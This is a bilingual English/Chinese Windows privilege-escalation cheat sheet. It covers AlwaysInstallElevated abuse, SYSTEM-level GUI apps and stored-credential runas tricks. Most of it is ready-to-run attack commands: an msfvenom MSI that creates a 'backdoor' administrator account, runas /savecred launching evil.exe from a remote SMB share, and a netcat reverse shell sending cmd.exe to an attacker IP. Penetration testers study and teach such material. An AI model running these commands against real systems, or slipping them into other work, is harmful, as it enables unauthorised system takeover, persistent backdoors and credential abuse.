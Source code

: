 

#### EoP - AlwaysInstallElevated

```
# ---------------
# Check if these registry values are set to "1".
# 检查这些注册表值是否设置为“1”。

$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Then create an MSI package and install it.
# 然后创建一个MSI包并安装它。

$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi

# 可以使用Metasploit的 exploit/windows/local/always_install_elevated
```


#### EoP - Insecure GUI apps

EoP - 不安全的GUI应用程序

```
# ---------------
# Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.
# 作为SYSTEM运行的应用程序允许用户生成CMD或浏览目录。

# Example: "Windows Help and Support" (Windows + F1), search for "command prompt", click on "Click to open Command Prompt"
# 示例：“Windows帮助和支持”（Windows + F1），搜索“命令提示符”，单击“单击以打开命令提示符”
```

#### EoP - Runas

```
# ---------------
# Use the cmdkey to list the stored credentials on the machine.
# 使用cmdkey列出计算机上存储的凭据

cmdkey /list
如结果
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator


# Then you can use runas with the /savecred options in order to use the saved credentials. 
# The following example is calling a remote binary via an SMB share.
# 然后，您可以用runas 的 /savecred 选项，以便使用保存的凭据。
# 以下示例通过SMB共享调用远程二进制文件。

runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"


# Using runas with a provided set of credential.

C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"


$ secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$ mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
```